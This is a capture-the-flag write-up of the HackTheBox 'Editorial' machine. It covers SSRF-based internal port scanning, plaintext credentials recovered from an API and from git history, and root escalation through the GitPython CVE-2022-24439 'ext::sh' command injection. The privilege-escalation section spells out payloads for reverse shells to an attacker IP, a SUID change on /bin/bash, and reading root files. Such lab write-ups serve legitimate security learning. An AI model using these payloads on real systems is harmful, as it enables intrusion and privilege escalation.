





## Reconnaissance

### nmap 


### WebSite 


### Gobuster 


### Fuzz subdomain

```
ffuf -u 'http://editorial.htb' -H 'Host: FUZZ.editorial.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fc 301 -fs 178
```


### Upload Page

> With gobuster result and manual enumeration
> I can find  the upload function 


> Try to enumerate this function 


> Intercept this request
> I found 3 things 

1. The target URL is ``` /upload-cover ```
2. The url won't show anything if I using google
3. The image will be upload to a temp path


> Tried to access the image path, I can check a image file but the image can't be viewed


> Then I also filled up all the information and send the request

- The url will be  ``` /upload ```
> But this request won't take URL and image in request body


## Exploit 

> Targeted on upload function
> I can set up URL and upload a file
> Here are 2 potential explpoit 

1. SSRF for URL 
2. Upload reverse shell 


### File Upload Vulnerability (Failed one)

> First, I tried to upload reverse shell
> But I don't know the backend programming language, hence I just tried to upload a PHP reverse shell 
> The request still respond a temp file path 


> I tried to access it, it still show the image file but the php web shell won't be executed 


> And with above testing, I know even I manipulate the extension, it still will be replace to jpeg and the file name will be changed.


> Hence I think the image file is not related to the file upload function.
> The file upload function is not the root cause for the file path in response.

### SSRF  (Works)

> So, I start to test SSRF.
> It will target on URL parameter

1. I tried to use google, but there is no any special 

> When I tried to access google site, the response will be a temp path with jpeg file 
> In here, I also tried to remove the content of "bookfile", it still response the jpeg path 


> Like previous attempt, the jpeg will be a default blank content like this 


> The response content also include the jpeg file (with unknown string)


2. I tried to access my http server to download a shell 

> It will response a different temp path (without jpeg extension)


> When I access this path, it will download a file 
> And in burp repeater, it will directly show the file I download



> **After conducting the following tests:**
> When I access my self-hosted HTTP server and try to download a file (whether it exists or not), the server always responds with a non-JPEG file located in the `/uploads` directory.


> However, when I attempt to access Google's site, the response is a picture file located in the `/images` directory, and the image appears to be a default gray background image.


> When I try to access the file located in the `/uploads` directory after the response, I can see that the content is the same as the file I originally requested in the access attempt.


>  Based on these tests, I speculate that receiving a non-JPEG file indicates a normal access to a server that is responding correctly. In contrast, receiving an image file might indicate some sort of unknown error or issue during the access process.
> This assumption was also confirmed in my subsequent test, where I attempted to access my IP address but with a non-existent port, and I received a JPEG image file in response.

```
http://10.10.14.218:443
```


>  However, when I tried to access a non-existent file, I received a correct access response.


> The unknown issue now is that for some reason, accessing Google's site also results in an erroneous response, but never mind, it's not an important question for now.

### Conclude for SSRF

> From the above observations, we can conclude that when accessing a URL, if the request successfully reaches an existing server or if there are no server or network-related errors during the process, the response will be a file located in the `/uploads` directory (most likely a text file). However, if there is an error, the response will be a JPEG image file located in the `/images` directory.
> Actually, this testing already confirms the presence of an SSRF vulnerability at this location. However, since I haven't been able to successfully trigger files like a webshell when accessing external resources, my next step will be to perform some common SSRF attacks. I will attempt to access internal network resources.

### Common Testing

> Then I start to reading SSRF basic technique from the Portswagger academy

- [(PortSwigger Academy)SSRF](https://portswigger.net/web-security/ssrf)



> So It's the common testing method that using the following

```
http://127.0.0.1
http://localhost
```


> The response show me the jpeg file.
> It indicates that the 127.0.0.1 port 80 can't be accessible (maybe there are something wrong in server side)
> But I think I still can tried to access other port to find out is there any internal service.
> Hence I used the following payload in intruder 

```
http://127.0.0.1:$port$
```


> If the service non-exist, it will reply the image file (with .jpeg)
> But if it exist, the path will different and the file won't be a jpeg file
> The 2 different can be observed easily from Length

- jpeg file will provide Length 61


- non-jpeg file will be 51


> After I start to scan the port, I also found the total length for the response with jpeg is 232 


> So, maybe the correct response will be 222
> After a long long time, I found the port 5000 will response different Length 


> I access to the port 5000 

```
http://127.0.0.1:5000
```


> Check the response path, it show me some api path 


> I tried to access them 1 by 1
> Finally I found a credential in /api/latest/metadata/messages/authors


```
dev / dev080217_devAPI!@
```

> Then I used this credential to login by SSH 


> Get user flag


## Privilege Escalation 

> In target server, I can easily find a directory named app in dev's home 



> Enumerate this directory, there is a hidden directory - .git


> In here, I should check the git log and git status 
> git logs 


> git status 


> With git status, it's easy to know the developer delete a lot of file in this version 
> Hence, I tried to recover these file by following command:

```
git reset --hard HEAD~
```


> git command for revert from  git history 

- [Git: 讓你的代碼回到過去，git reset 與 git revert 的用處](https://roykwokcode.medium.com/%E8%AE%93%E4%BD%A0%E7%9A%84%E4%BB%A3%E7%A2%BC%E5%9B%9E%E5%88%B0%E9%81%8E%E5%8E%BB-git-reset-%E8%88%87-git-revert-%E7%9A%84%E7%94%A8%E8%99%95-6ba4b7545690)


> After revert to last version, I found a lot of python file 
> These python file are all related to the app that I just access to
> Include about page, upload page and also the api function 
> About function + upload function 


> API function 


> In this app python, I also found the dev credential which I found from the author api in previous.


> But that's all I found in this version, I can't find more evidence.
> Hence I move back to git logs 


> And I found the following history commit: **It downgrading prod to dev**
> This commit make me curious 


> Hence I tried to check this commit by the following command 

```
git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
```

> With check this history
> I can find the different between previous one.
> It replace prod's credential with dev's one.
> Hence I also record prod's credential 
```
prod / 080217_Producti0n_2023!@
```


> Using prod's credential
> I also can login by SSH 


### Privilege to root

> Within prod's credential, I can check sudo permission

```
sudo -l 
```

> And I found this user can execute the following command with root permission 


```
/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py **
```

> Checking the target python file 
> Within this python code, the suspicious part is the git library and it will take 1 parameter then feed to the clone_from function.


> I also check the library which install by pip

```
pip3 list 
```



> Searching the git library name 
> It shows - gitPython


> And I also found the GitPython version from pip list 

```
GitPython 3.1.29
```


> Then I tried to search the exploit code for GitPython 3.1.29


> I found the following one 

```
CVE-2022-24439
```

- [CVE-2022-24439 Detail](https://packetstormsecurity.com/files/cve/CVE-2022-24439)


> And found the following exploit discussion
> In this article, the summary shows a payload

- [CVE-2022-24439: <gitpython::clone> 'ext::sh -c touch% /tmp/pwned' for remote code execution](https://github.com/gitpython-developers/GitPython/issues/1515)

```
ext::sh -c touch% /tmp/pwned
```


> After researching, I think this CVE point to the 'git-remote-ext' function which cause RCE 

- [git-remote-ext](https://git-scm.com/docs/git-remote-ext?source=post_page-----0ec1451202b0--------------------------------)

```
This remote helper uses the specified _<command>_ to connect to a remote Git server.
```


> I also tried the 2 payloads in target server 

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'

sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwnedddddddddd'
```


> Checking target directory /tmp 
> I also found those 2 file has been created


> Then I also tried to create a reverse shell by the following command
> All of them are failed to connect to my host, even the response message same as previous one.

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c "bash -i >& /dev/tcp/10.10.14.218/1338 0>&1"'
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c 'bash% -i% >&% /dev/tcp/10.10.14.218/1338% 0>&1'"
```


> Create a file and execute it by this vulnerability

```
echo '#!/bin/bash' > /tmp/exp.sh
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.218/1338 0>&1'" >> /tmp/exp.sh
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c '/tmp/exp.sh'"
```


> After multiple testing, I can read the root flag to a new file in /tmp 

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c cat% /root/root.txt > /tmp/root.txt
```


> Then read this file, I can get root flag


> Or I also can change the permission for /bin/bash 
> This command, I get the hint from the following

- [CVE-2022-24439: GitPython RCE](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/cve.md#cve-2022-24439-gitpython-rce)

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c chmod% +s% /bin/bash"
```


> Checking the permission of /bin/bash


> Execute to get euid to get root permission

```
/bin/bash -p
```


> Read root flag


> I also cat read shadow file 


## Reference 

### Write up 

- [HackTheBox : Editorial WriteUp](https://medium.com/@aslam.mahimkar/hackthebox-editorial-writeup-0ec1451202b0)
- [生成AI使ったらHackTheBoxのEditorialで権限昇格してないのにrootフラグとれてしまった件](https://note.com/masa102828/n/n484b6bfa2294)
- [Hack The Box | Season 5-Editorial Writeup](https://medium.com/@nkrohitkumar2002/hack-the-box-season-5-editorial-writeup-552635f389d6)
- 
### SSRF 

- [(PortSwigger Academy)SSRF](https://portswigger.net/web-security/ssrf)
- [分享关于ssrf的检测技巧](https://blog.csdn.net/jiyongx/article/details/129806490)
- [我的SSRF漏洞学习](https://shu1l.github.io/2020/04/20/ssrf-lou-dong-xue-xi/)

### GIT command 

- [Git: 讓你的代碼回到過去，git reset 與 git revert 的用處](https://roykwokcode.medium.com/%E8%AE%93%E4%BD%A0%E7%9A%84%E4%BB%A3%E7%A2%BC%E5%9B%9E%E5%88%B0%E9%81%8E%E5%8E%BB-git-reset-%E8%88%87-git-revert-%E7%9A%84%E7%94%A8%E8%99%95-6ba4b7545690)
- [git-remote-ext](https://git-scm.com/docs/git-remote-ext?source=post_page-----0ec1451202b0--------------------------------)


### CVE-2022-24439

- [CVE-2022-24439 Detail](https://packetstormsecurity.com/files/cve/CVE-2022-24439)
- [CVE-2022-24439: <gitpython::clone> 'ext::sh -c touch% /tmp/pwned' for remote code execution](https://github.com/gitpython-developers/GitPython/issues/1515)
- [CVE-2022-24439: GitPython RCE](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/cve.md#cve-2022-24439-gitpython-rce)


### Others 

> From chatGPT, I know how to detect SSRF 





###### tag: `HackTheBox` `SSRF` `GIT RCE` `GITPython` `CVE-2022-24439`